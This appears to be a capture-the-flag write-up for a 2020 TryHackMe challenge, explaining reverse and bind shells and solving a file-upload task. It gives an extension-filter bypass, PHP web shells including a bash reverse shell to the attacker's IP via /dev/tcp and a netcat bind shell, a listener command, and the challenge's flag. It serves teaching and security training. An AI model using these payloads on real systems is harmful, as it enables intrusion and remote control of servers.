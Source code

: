 # Day 2 - The Elf Strikes Back!

**Date:** 02, December, 2020

**Author:** Dhilip Sanjay S

---
## Reverse Shell
- Attack Box will be listening for incoming connection. The victim will connect back to the attack box (by some malicious script).
- In this example, the PHP script is used to create a reverse shell.

## Bind Shell
- A bind shell is created in the victim and binds to a specific port to listen for an incoming connection from the attack box.

---

## Solutions
### What string of text needs added to the URL to get access to the upload page?
- **Answer:** `?id=Your-ID`

---

### What type of file is accepted by the site?
- **Answer:** image
- **Steps to reproduce:** View source code. You can see that, it will accept files with following extensions:  `.jpg, .jpeg, .png` (which are image extensions).

---

### Bypass the filter and upload a reverse shell.
- To bypass the file upload extension filter: `your-file.(jpg|jpeg|png).php`
- The filter will check the extension after the first dot in the filename. This way, you can upload any file format. 

- Reverse shell is used to obtain the flag. 3 ways to obtain flag using PHP:
1. __Reverse Shell using the pre-written script__
    - Make a copy of the script: `/usr/share/webshells/php/php-reverse-shell.php` 
    - Replace `$ip` and `$port` in the script with your IP Address and the port on which your netcat is listening. 

2. __Reverse Shell using exec command__
    - To obtain Reverse shell without much complicated code.
    - And also netcat is not available in target.

    ```php
    <?php
    echo exec("/bin/bash -i > /dev/tcp/$ip/$port 0<&1 2>&1");
    ?>
    ```
    - **Note:** Replace `$ip` and `$port` with your IP Address and the port on which your netcat is listening.

> In the same way, **bind shell** can be established:
> ```php 
> <?php
> exec("nc -lp $port -e /bin/sh");
> ?>
> ```
> - But `nc` is not installed on the server. So, it is not possible in this case.
> - To connect to the bind shell, on the attack machine type the command: `nc $target_ip $port`.

3. __Print the flag directly__
    - We know that the flag is in the file `/var/www/flag.txt`. So, we can use PHP to directly fetch and display the flag for us.
    ```php
    <?php
    echo shell_exec("cat /var/www/flag.txt");
    ?>
    ```

---

### In which directory are the uploaded files stored?
- **Answer:** /uploads/
- Use `dirbuster` to find the folders.

---

### Activate your reverse shell and catch it in a netcat listener!
- To activate the reverse shell, go to the `/uploads/` directory and click on the file you uploaded.
- To listen to the reverse shell:
    ```bash
    sudo nc -lvnp $port
    ``` 

---

### What is the flag in `/var/www/flag.txt`?
-  **Answer:** THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

---

## Reference Links
- [Netcat without netcat](https://www.youtube.com/watch?v=hZ6TjWuepqw)
- [IO redirection](https://tldp.org/LDP/abs/html/io-redirection.html)
- [Meaning of 2>&1 (STDERR to STDOUT)](https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean)